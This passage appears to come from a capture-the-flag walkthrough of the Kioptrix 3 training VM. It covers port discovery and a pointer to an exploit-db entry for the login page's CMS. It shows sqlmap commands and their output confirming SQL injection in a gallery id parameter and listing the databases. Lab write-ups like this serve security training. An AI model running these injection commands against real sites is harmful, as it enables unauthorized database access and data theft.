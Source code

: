 Only two ports discovered, http and ssh. I decided to start exploring the website. Clicking on the Login tab sends us to a login form that appears to be running LotucCMS. A quick check on Google reveals that this may be vulnerable to a remote code execution exploit: [http://www.exploit-db.com/exploits/15964/](http://www.exploit-db.com/exploits/15964/)

The website also promotes their new gallery, so I started poking around in it. Clicking on the Ligoat Press Room displays a page that has a form at the bottom, which allows us to sort the images:

![](/images/2012-07-16/03.png)

Playing around with this form causes the URL to change around a bit:

```
http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos
```

Suspecting that the id parameter might be injectable, I decide to try a SQL injection attack using sqlmap. Assuming that the backend database is running MySQL:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL
.
.
.
.
[22:53:35] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 10 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
```

My assumption paid off, the id parameter is injectable. I can re-run sqlmap with more specific probes now. I start off by identifying the databases:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL --dbs
.
.
.
[22:55:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL 5.0
[22:55:39] [INFO] fetching database names
[22:55:39] [INFO] the SQL query used returns 3 entries
[22:55:39] [INFO] retrieved: "information_schema"
[22:55:39] [INFO] retrieved: "gallery"
[22:55:39] [INFO] retrieved: "mysql"
available databases [3]:                                                       
[*] gallery
[*] information_schema
[*] mysql
```
